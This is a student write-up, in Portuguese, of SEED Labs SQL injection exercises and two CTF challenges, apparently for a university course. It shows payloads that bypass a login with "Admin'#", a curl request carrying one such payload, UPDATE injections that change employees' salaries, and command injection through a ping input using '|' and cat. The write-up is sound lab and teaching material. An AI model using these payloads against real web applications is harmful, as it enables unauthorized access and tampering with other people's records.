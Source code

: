 # Trabalho realizado nas Semana #8 e #9

## **Seed Labs**

## Tarefa 1

```
    mysql> select * from credential where Name = "Alice";
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    1 row in set (0.01 sec)

    mysql> 
```

## Tarefa 2
### Tarefa 2.1
Colocando "Admin' OR 'a'='a" no username vai alterar a query fazendo com que a condição seja sempre verdadeira. A query será assim:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin' or 'a'='a' and Password='';
```

![login](images/login.png)

![info](images/details.png)****

Uma alternativa mais simples é colocar "Admin'#" no username, o que fará com que o que vem depois do '#' seja apenas um comentário, o que faz com que a condição seja verdadeira em name = 'Admin'. A nova query será então:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin'#' and Password='';
```

![login2](images/login2.png)

### Tarefa 2.2

http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=

```
    curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=' > index.html
```

abrindo o index.html no browser, obtemos:

![info](images/details2.png)

### Tarefa 2.3

Ataques de injeção SQL que pretendem correr várias queries não funcionam contra MySQL pois, na extensão mysqli no PHP, a mysqli::query() API não permite que várias queries sejam corridas no servidor da base de dados.

## Tarefa 3

### Tarefa 3.1

Primeiro é necessário fazer login. É usada a mesma estratégia da tarefa 2.

![info](images/alice_login.png)

Alterando o input de um dos campos na edição de perfil podemos alterar o nosso salário. Por exemplo, ao colocar "123', salary = 1000000 WHERE EID = 10000;#" no campo do Phone Number, o nosso salário é alterado para 1000000, sabendo que o nosso EID é 10000.

O sql alterado ficará como o seguinte:

```sql
    UPDATE credential SET
    nickname='',
    email='',
    address='',
    Password='',
    PhoneNumber= '123', salary = 1000000 WHERE EID = 10000;#
    WHERE ID=;
```
Como se pode observar pela imagem, o salário foi alterado com sucesso.<br>


![info](images/alice_profile.png)


### Tarefa 3.2

Para alterar o salário do Boby, sabendo que o seu EID é 20000, podemos colocar "123', salary = 1 WHERE EID = 20000;#" no campo do PhoneNumber.


O sql alterado ficará como o seguinte:

```sql
    UPDATE credential SET
    nickname='',
    email='',
    address='',
    Password='',
    PhoneNumber= '123', salary = 1 WHERE EID = 20000;#
    WHERE ID=;
```

![info](images/boby_changed.png)



# **CTF - Desafio 1**

Para obter a flag basta inserir no username **admin';#**<br>
Tal como explicado na tarefa 2.1,
este input fará com que o que vem depois do '#' seja comentado, tornando qualquer condição verdadeira.

![info](images/ctf1.png)

O resultado é o seguinte:

![info](images/flag1.png)

# **CTF - Desafio 2**

O servidor usa o nosso input para chamar a função ping, através de system(). 
A chamada será parecida com a seguinte:
``
    system("ping -c 2" + input )
``

Usando "|" podemos utilizar cat para ver o conteúdo do ficheiro onde se encontra a flag.

![info](images/ping.png)

O resultado é o seguinte:

![info](images/flag2.png)